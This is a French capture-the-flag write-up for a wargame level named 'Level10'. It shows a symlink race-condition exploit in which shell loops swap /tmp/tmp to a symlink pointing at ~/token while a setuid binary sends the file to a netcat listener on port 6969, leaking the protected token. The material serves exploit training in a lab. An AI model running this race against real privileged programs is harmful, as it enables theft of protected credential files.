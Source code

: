 # Level10:

**Dans un premier temps, copier le code ci-dessous vers `/tmp/s1.sh` et executer le dans un premier terminal**

```bash 
#!/bin/sh
while [ 1 ]
do
    rm -f /tmp/tmp
    touch /tmp/tmp
    rm -f /tmp/tmp
    ln -s ~/token /tmp/tmp
done
```

`chmod +x /tmp/s1.sh ; /tmp/s1.sh`


**Ajouter en suite ce code dans `/tmp/s2.sh` puis l'executer dans un deuxieme terminal**
```bash
#!/bin/sh
while [ 1 ]
do
    ~/level10 /tmp/tmp 127.0.0.1
done
```

`chmod +x /tmp/s2.sh ; /tmp/s2.sh`

**Et enfin dans un troisieme terminal il faut ouvrir un serveur d'ecoute sur le port 6969**

`nc -lk 6969`

**On y voit alors le flag passer**
![intermediaire.png](./intermediaire.png)

![finaly.png](./finaly.png)